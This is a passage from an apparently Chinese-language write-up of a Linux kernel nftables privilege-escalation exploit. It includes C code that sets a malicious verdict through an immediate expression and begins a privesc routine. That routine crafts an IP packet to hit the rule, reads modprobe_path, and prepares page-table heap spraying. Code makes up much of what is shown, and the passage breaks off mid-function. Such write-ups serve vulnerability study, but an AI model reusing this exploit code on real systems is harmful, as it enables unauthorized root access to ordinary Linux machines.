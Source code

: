 ```c
```

##### （2）Nftables

为了触发漏洞，我们需使用恶意的verdict值来设置 hook/rule。代码如下：

```c
// add_set_verdict() —— 添加immediate指令，设置恶意的verdict值
static void add_set_verdict(struct nftnl_rule *r, uint32_t val)
{
	struct nftnl_expr *e;

	e = nftnl_expr_alloc("immediate");
	if (e == NULL) {
		perror("expr immediate");
		exit(EXIT_FAILURE);
	}

	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_DREG, NFT_REG_VERDICT);
	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_VERDICT, val);

	nftnl_rule_add_expr(r, e);
}
```

##### （3）预分配

漏洞利用之前，需预分配一些对象防止分配噪声，避免利用失败。注意，`CONFIG_SEC_BEFORE_STORM`会等待后台所有的分配完成，以防跨CPU发生分配。这样会减慢漏洞利用速度（1s -> 11s），但是在存在大量噪声的系统上能提高漏洞利用的稳定性。有趣的是，在没有任何工作负载的系统（例如kernelCTF image）上，没有sleep的情况下，成功率提升了（93% -> 99,4%，n=1000）。预分配代码如下：

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
	unsigned long long *pte_area;
	void *_pmd_area;
	void *pmd_kernel_area;
	void *pmd_data_area;
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD, 
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 70, 			// 协议号为70，才能触发 nftables rule
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	char modprobe_path[KMOD_PATH_LEN] = { '\x00' };
// 0. initialize
	get_modprobe_path(modprobe_path, KMOD_PATH_LEN); // 读取 modprobe_path 的默认路径

	printf("[+] running normal privesc\n");

    PRINTF_VERBOSE("[*] doing first useless allocs to setup caching and stuff...\n");

	pin_cpu(0);

// 0-1. 预分配一个PUD，便于之后分配重叠的PMD
	mmap((void*)PTI_TO_VIRT(1, 0, 0, 0, 0), 0x2000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	*(unsigned long long*)PTI_TO_VIRT(1, 0, 0, 0, 0) = 0xDEADBEEF;

// 0-2. 提前注册16000个待堆喷的 PTE 页，每个PTE页含2个PTE条目（没有写入，暂且不会分配实际的PTE页，同时会预注册16000/512个PMD页）
```